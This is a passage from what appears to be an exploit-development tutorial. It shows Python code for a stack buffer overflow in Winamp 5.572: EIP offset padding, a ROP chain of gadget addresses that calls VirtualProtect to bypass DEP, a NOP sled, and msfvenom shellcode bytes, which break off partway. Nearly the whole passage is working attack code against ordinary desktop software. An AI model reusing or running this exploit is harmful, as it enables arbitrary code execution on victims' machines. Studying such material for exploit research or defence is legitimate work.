       rop_chain = create_rop_chain()



## Step 2: Integrate ROP chain into python exploit

Integrating this into the existing python exploit, made for the classic stack overflow:


```python
import struct

buf = "Winamp 5.572"

# padding up to EIP offset (540 in original)
buf += "A"*540


def create_rop_chain():
    rop_gadgets = [
        0x7deb1da7,  # POP EAX # RETN [mshtml.dll] 
        0x59a010f8,  # ptr to &VirtualProtect() [IAT wmdmlog.dll]
        0x07b43279,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [out_ds.dll] 
        0x7de0ce7b,  # XCHG EAX,ESI # RETN [mshtml.dll] 
        0x083cba30,  # POP EBP # RETN [jpeg.w5s] 
        0x5ad86aeb,  # & push esp # ret  [UxTheme.dll]
        0x76cac606,  # POP EAX # RETN [IMAGEHLP.dll] 
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x08493327,  # NEG EAX # RETN [playlist.w5s] 
        0x7dc82979,  # XCHG EAX,EBX # RETN [mshtml.dll] 
        0x7c87f229,  # POP EAX # RETN [kernel32.dll] 
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x771bcbe4,  # NEG EAX # RETN [WININET.dll] 
        0x7dc80eed,  # XCHG EAX,EDX # RETN [mshtml.dll] 
        0x7dc5567d,  # POP ECX # RETN [mshtml.dll] 
        0x77e4ac2e,  # &Writable location [ADVAPI32.dll]
        0x0832bbfb,  # POP EDI # RETN [jnetlib.w5s] 
        0x77e8c786,  # RETN (ROP NOP) [RPCRT4.dll]
        0x7dc32ee1,  # POP EAX # RETN [mshtml.dll] 
        0x90909090,  # nop
        0x7e423ad9,  # PUSHAD # RETN [USER32.d
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()
buf += rop_chain

buf += "\x90" * 16 # small nop sled

#shell code from msfvenom
buf += "\x40\x43\x4b\x37\x99\x42\x40\x37\x9b\x41\x98\x4b\x4a"
buf += "\xd6\x37\xf5\xf5\xf9\x42\x3f\xfd\xfc\x99\xf9\x98\x40"
buf += "\x37\xf8\x4b\xd6\x3f\x99\x42\x37\x3f\x4b\x99\x48\xfc"
buf += "\x4b\x9b\xd6\x37\x92\x99\x91\x41\x2f\x42\x41\xfd\x91"
buf += "\x4a\x91\x40\x27\x93\x2f\xfd\xfc\xfc\xfd\x37\x49\x98"
buf += "\x4a\xfc\xd6\xf9\x4b\x48\x92\xd6\x93\x3f\xf8\x98\x42"
buf += "\x4b\x37\x37\xf5\x37\x2f\x40\x40\x37\x98\x37\x4a\x99"
buf += "\x9b\x49\x98\xf8\x48\x42\x41\x40\x98\xd9\xc1\xbd\x7a"
buf += "\xfc\x3c\x39\xd9\x74\x24\xf4\x5e\x33\xc9\xb1\x52\x83"
buf += "\xee\xfc\x31\x6e\x13\x03\x14\xef\xde\xcc\x14\xe7\x9d"
buf += "\x2f\xe4\xf8\xc1\xa6\x01\xc9\xc1\xdd\x42\x7a\xf2\x96"
buf += "\x06\x77\x79\xfa\xb2\x0c\x0f\xd3\xb5\xa5\xba\x05\xf8"
buf += "\x36\x96\x76\x9b\xb4\xe5\xaa\x7b\x84\x25\xbf\x7a\xc1"
buf += "\x58\x32\x2e\x9a\x17\xe1\xde\xaf\x62\x3a\x55\xe3\x63"
buf += "\x3a\x8a\xb4\x82\x6b\x1d\xce\xdc\xab\x9c\x03\x55\xe2"
```